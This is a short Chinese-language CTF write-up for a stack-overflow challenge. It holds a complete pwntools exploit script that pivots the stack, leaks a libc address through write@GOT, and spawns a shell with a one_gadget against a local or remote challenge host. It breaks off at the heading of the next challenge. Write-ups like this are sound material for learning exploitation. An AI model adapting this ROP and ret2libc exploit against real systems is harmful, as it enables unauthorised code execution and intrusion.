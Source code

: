 看一个明显的栈溢出，本应该是八仙过海的一道题，可是环境有点不行。与群里师傅讨论了一下这里至少有三种实现get shell的方法（普通rop，ret2libc_init，ret2dl_run_time）。

## exp

```python
#!/usr/bin/env python3
from pwn import *
context.log_level='debug'
context.arch="amd64"

local=1
if local:
	r=process('./pwn')	
else:
	r=remote('node2.hackingfor.fun',30238)
#gdb.attach(r)
elf=ELF('./pwn')
offset=0x50
fake_rbp=0x601060+0x100
pop_rdi=0x400673
pop_rsi_r15=0x400671
leave_ret=0x40060d
main_addr=0x4005d4
write_got=elf.got['write']
write_plt=elf.plt['write']
payload='a'*offset+p64(fake_rbp)+p64(main_addr)
r.send(payload)
sleep(0.1)

payload=p64(pop_rdi)+p64(0x1)+p64(pop_rsi_r15)+p64(write_got)+p64(0x8)+p64(write_plt)+p64(elf.symbols['main'])
payload=payload.ljust(0x50,'a')+p64(fake_rbp-0x58)+p64(leave_ret)
r.send(payload)

write_addr=u64(r.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
log.info("addr:"+hex(write_addr))
libcbase=write_addr-0x0f7370
binsh_addr=libcbase+0x18ce17
system_addr=libcbase+0x0453a0
one_gadget=libcbase+0x45226
#payload='a'*0x58+p64(pop_rdi)+p64(binsh_addr)+p64(system_addr)
payload='a'*0x58+p64(one_gadget)
r.send(payload)
r.interactive()
```

# pwngirl

不废话直接进入有漏洞的函数
